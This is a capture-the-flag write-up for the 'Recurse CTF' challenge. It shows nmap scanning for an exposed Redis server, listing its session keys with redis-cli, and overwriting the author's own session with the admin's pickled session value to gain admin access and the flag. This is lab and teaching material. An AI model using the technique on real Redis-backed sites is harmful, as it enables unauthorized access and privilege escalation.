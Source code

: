# Recurse CTF
> A CTF inside a CTF?
> I know you have always wanted to hack a CTF... this is your chance! The admin has the real flag.
> Some light scanning is allowed for this challenge 

I found this to be a very challenging flag to obtain. I failed to do so during competition, and only resolved it after getting a hint from the creator. 

This environment has a huge number of rabbit holes to fall in to -- remember during these CTF events to follow KISS.

Open the CTF site and check your cookies. Observe a cookie named `redis-session`. We have a Redis server to target.

Open the terminal, check `netstat` to view active connections:
```
~ # netstat -a -n | grep ESTAB
tcp        0      0 10.112.6.197:6379       10.112.6.197:44808      ESTABLISHED
tcp        0      0 127.0.0.1:34426         127.0.0.1:6379          ESTABLISHED
tcp        0      0 10.112.6.197:44808      10.112.6.197:6379       ESTABLISHED
tcp        0      0 127.0.0.1:6379          127.0.0.1:34426         ESTABLISHED
tcp        0      0 127.0.0.1:6379          127.0.0.1:49190         ESTABLISHED
tcp        0      0 127.0.0.1:49190         127.0.0.1:6379          ESTABLISHED
tcp        0      0 ::ffff:10.112.6.197:8080 ::ffff:10.128.0.19:22604 ESTABLISHED
tcp        0      0 ::ffff:10.112.6.197:8080 ::ffff:10.128.0.10:19702 ESTABLISHED
tcp        0      7 ::ffff:10.112.6.197:8080 ::ffff:10.128.0.21:11235 ESTABLISHED
tcp        0      0 ::ffff:10.112.6.197:8080 ::ffff:10.128.0.21:33038 ESTABLISHED
```

Note there are two subnets in play here -- 10.112.6.0/24 and 10.128.0.0/24. Lets install nmap and do some scans (`apk add nmap`).

The subnet our shell _isn't_ on is a red herring, ignore it. If you scan it, you'll find a lot of interesting rabbit holes to fall in to.

Lets scan our local subnet for redis hosts:
```
~ # nmap 10.112.6.0/24 -p 6379 --open
Starting Nmap 7.80 ( https://nmap.org ) at 2022-12-18 08:26 UTC
Nmap scan report for recurse-ctf-9bc4d50bf1c15ddd-59b8955568-kfkzg (10.112.6.197)
Host is up (0.000082s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 256 IP addresses (6 hosts up) scanned in 24.20 seconds
```

We have our target. Lets install redis-cli (`apk add redis`) and connect:
```
~ # redis-cli -h 10.112.6.197
10.112.6.197:6379> keys *
1) "session:348d6f5f-eea0-43d4-b7ed-ca3e0f40ca91"
```

This initial session was created before logging in, and is presumably for a pre-logged in user, hopefully our admin? Lets see the contents of the key:
```
10.112.6.197:6379> get session:348d6f5f-eea0-43d4-b7ed-ca3e0f40ca91
"\x80\x04\x95\x0b\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x02id\x94K\x01s."
```

Lets create an account on the site and log in, and then check for a new key:
```
10.112.6.197:6379> keys *
1) "session:348d6f5f-eea0-43d4-b7ed-ca3e0f40ca91"
2) "session:2da39ba1-ccdd-4300-af62-085eac9d8938"
3) "session:d83ba254-15f7-49ee-b50f-47ff5c353367"
10.112.6.197:6379> get session:2da39ba1-ccdd-4300-af62-085eac9d8938
"\x80\x04\x95\x0b\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x02id\x94K\x02s."
```

Assumption -- if we update our session key with the value from admin, we'll get admin privs. Lets try that:
```
10.112.6.197:6379> set "session:2da39ba1-ccdd-4300-af62-085eac9d8938" "\x80\x04\x95\x0b\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x02id\x94K\x01s."
OK
```

Refresh page and now we can see an `Admin panel` button. Click that to get flag:
`Congratulations you are the admin here is the flag: flag{1435eaab209a13f1cb3cf2207a6988bc}`

Cheers to congon4tor for such a fun but challenging flag.

